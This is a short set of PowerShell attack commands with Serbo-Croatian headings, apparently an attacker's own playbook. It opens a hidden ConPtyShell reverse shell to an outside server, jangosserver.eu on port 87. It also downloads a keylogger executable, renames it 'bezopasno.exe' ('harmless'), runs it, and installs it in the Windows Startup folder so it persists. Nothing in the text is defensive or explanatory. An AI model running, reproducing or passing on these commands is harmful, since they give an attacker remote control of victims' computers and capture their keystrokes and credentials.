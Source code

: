 --- POVEZIVANJE ---

powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

--- SKIDANJE I POKRETANJE KEYLOGGERA ---

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"
& "$env:LOCALAPPDATA\bezopasno.exe"

--- SKIDANJE I POKRETANJE KEYLOGGERA NA STARTUPU ---

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
& "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
